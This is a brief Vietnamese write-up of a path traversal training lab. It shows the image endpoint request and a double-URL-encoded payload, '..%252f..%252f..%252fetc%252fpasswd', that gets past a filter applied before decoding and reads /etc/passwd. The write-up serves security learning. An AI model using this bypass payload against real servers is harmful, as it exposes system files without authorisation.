



# Lab 04: Superfluous URL Decode

## Mục tiêu
Đọc file `/etc/passwd` trong lab Path Traversal khi server chặn traversal sequence rồi mới URL-decode input.

## Đề bài

<br><br>

## Bước 1: Lấy endpoint ảnh
Mở một ảnh sản phẩm để lấy request:

```http
GET /image?filename=74.jpg
```


<br><br>

## Bước 2: Bypass bằng double URL-encoding
Gửi payload đã encode 2 lần để sau bước lọc + decode, chuỗi cuối cùng vẫn trở thành `../../../etc/passwd`:

```http
GET /image?filename=..%252f..%252f..%252fetc%252fpasswd HTTP/2
```

Giải thích ngắn:
- `%252f` decode lần 1 thành `%2f`
- decode lần 2 thành `/`

Vì vậy payload traversal được khôi phục ở bước xử lý cuối.


<br><br>

## Kết quả
Response trả về nội dung `/etc/passwd`, lab được solve.
